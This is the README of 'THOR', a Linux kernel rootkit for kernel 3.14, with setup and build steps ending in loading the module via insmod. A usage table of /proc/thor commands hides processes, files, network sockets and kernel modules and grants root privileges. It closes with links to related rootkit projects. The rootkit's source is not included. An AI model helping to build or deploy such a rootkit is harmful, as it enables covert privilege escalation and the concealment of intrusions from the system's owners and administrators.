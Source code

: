 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor     (hides process PID)
       echo up PID    > /proc/thor     (unhides process PID)
       echo upa       > /proc/thor     (unhide all PIDs)
       echo hf FILE   > /proc/thor     (hide file FILE)
       echo uf FILE   > /proc/thor     (unhide file FILE)
       echo ufa       > /proc/thor     (unhide all files)
       echo ht4s PORT > /proc/thor     (hide tcp4 socket)
       echo ut4s PORT > /proc/thor     (unhide tcp4 socket)
       echo ht6s PORT > /proc/thor     (hide tcp6 socket)
       echo ut6s PORT > /proc/thor     (unhide tcp6 socket)
       echo hu4s PORT > /proc/thor     (hide udp4 socket)
       echo uu4s PORT > /proc/thor     (unhide udp4 socket)
       echo hu6s PORT > /proc/thor     (hide udp6 socket)
       echo uu6s PORT > /proc/thor     (unhide udp6 socket)
       echo usa       > /proc/thor     (unhide all sockets)
       echo hm MODULE > /proc/thor     (hide module)
       echo um MODULE > /proc/thor     (unhide module)
       echo uma       > /proc/thor     (unhide all modules)
       echo root      > /proc/thor     (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [XieRan](https://github.com/nareix/tls-example)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
